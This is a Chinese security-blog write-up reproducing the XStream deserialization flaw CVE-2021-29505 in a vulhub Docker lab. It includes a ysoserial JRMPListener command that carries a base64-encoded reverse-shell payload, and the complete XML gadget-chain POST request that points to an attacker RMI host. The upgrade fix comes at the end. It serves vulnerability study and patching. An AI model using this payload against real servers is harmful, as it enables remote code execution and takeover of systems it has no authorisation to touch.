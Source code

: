 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SfJ7PoshsbPV27zdwVC39Q)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yY3O5aCB75c0g4SKQne2sBawZWmYXJvIxhib6GIPWesbGch8FQXveFpGA/640?wx_fmt=png)

XStream 远程代码执行（CVE-2021-29505 ）

一、简介描述

XStream 是一种 OXMapping 技术，是用来处理 XML 文件序列化的框架, 在将 javaBean 序列化，或将 XML 文件反序列化的时候，不需要其它辅助类和映射文件，使得 XML 序列化不再繁琐。攻击者可以操纵已处理的输入流并替换或注入对象，从而执行从远程服务器加载的任意代码。

二、影响版本：

XStream <= 1.4.16

三、环境搭建：

```
https://raw.githubusercontent.com/vulhub/vulhub/master/xstream/CVE-2021-29505/docker-compose.yml
```

文件：docker-compose.yml

```
version: '2'
services:
 web:
   image: vulhub/xstream:1.4.16
   ports:
    - "8080:8080"
```

docker-compose up -d

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYty5YibrEcuyUgM5YjG1JerIAhscgAIRuKEGwmFAtYjibjzd6tialjicuMQ/640?wx_fmt=png)

镜像已经启动：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYH7ERRte96OVejfbtYAvxUEyPJdXIEuNjmcw9dbicWn9EWJe5I8vha2w/640?wx_fmt=png)

访问地址：http://192.168.0.106:8080/

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYCAsVJ3LiajrwjurTm2BvxrvMU40arsSzUBbPenAricVX5JWvX0AAFd8w/640?wx_fmt=png)

四、漏洞复现

启动服务：

反弹目标需要 base64 加密：

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1098 CommonsCollections6 "bash -c {echo,L2Jpbi9iYxxxxxxxxPiYx}|{base64,-d}|{bash,-i}"
```

执行过程截图：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYGZuKWbpdfuNExMl7iaAiaolfWX7JvLiaNyH94NX6Wmoq4gJAfwZMsib8jQ/640?wx_fmt=png)

执行 poc：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYHosVr15feQa9ERZpQKCF5MqSpZrzrNjWOpdeZp0WoYPKS6gez6Fpdg/640?wx_fmt=png)

获取反弹 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYnc3se995NF14wrUNWO3mOUYAHGiaFriaiblSavEviaUWJOhTc2OLMxD5tA/640?wx_fmt=png)

详细数据包：  

```
POST / HTTP/1.1
Host: 192.168.0.106:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3115

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>192.168.0.102</string>
                                                <int>1098</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>192.168.0.102</host>
                                        <port>1098</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

五、漏洞修复：

将 xstream 升级到 1.4.17 或以上版本。（在 maven 的 / pom.xml 中替换高版本 xstream）

```
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.17</version>
</dependency>
```

参考：

https://mp.weixin.qq.com/s/dh7Ewg7Pp-pg3mkLuUv9Rg

https://blog.csdn.net/weixin_45728976/article/details/116942969

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)